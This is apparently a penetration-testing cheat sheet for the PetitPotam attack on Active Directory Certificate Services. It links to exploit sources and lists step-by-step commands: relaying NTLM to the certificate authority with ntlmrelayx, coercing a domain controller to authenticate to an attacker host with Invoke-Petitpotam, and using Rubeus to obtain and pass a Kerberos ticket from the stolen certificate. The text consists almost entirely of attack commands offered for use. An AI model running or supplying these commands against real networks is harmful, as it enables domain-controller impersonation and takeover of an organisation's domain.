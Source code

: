 ### Source
https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1  
https://github.com/topotam/PetitPotam  

### Find certificate autthority
```
certutil.exe
```

### Set up ntlm relay (forward incoming authentication from domain controller to certificate authority)
```
python3 ntlmrelayx.py -t http://<certificateAuthority>/certsrv/certfnsh.asp -smb2support --adcs
```

### Trigger authentication from domain controller
```
Invoke-Petitpotam -Target <domainController> -CaptureHost <lhost>
```

### Request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

